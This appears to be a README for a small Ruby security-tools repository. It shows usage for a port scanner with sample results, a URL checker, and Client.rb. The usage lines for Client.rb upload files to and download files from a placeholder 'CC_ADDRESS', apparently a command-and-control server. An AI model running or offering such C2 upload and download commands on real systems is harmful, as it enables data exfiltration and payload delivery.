 # RubySecRepo

### 1. NetworkScan 

Usage: 
```sh
$ ruby main.rb 192.168.1.1 192.168.1.3
```


Result:
```sh
192.168.1.1 - 80  -
192.168.1.1 - 443 -
192.168.1.2 - 80  - open
192.168.1.2 - 443 -
192.168.1.3 - 80  - open
192.168.1.3 - 443 -
```
### 2. URLChecker 
Usage: 
```sh
$ ruby main.rb 
```

### 3. Client.rb
Usage:
```sh
For download : >ruby client.rb d [http://CC_ADDRESS] [filename.ext]
For upload   : >ruby client.rb u [http://CC_ADDRESS] [filename.ext]
```
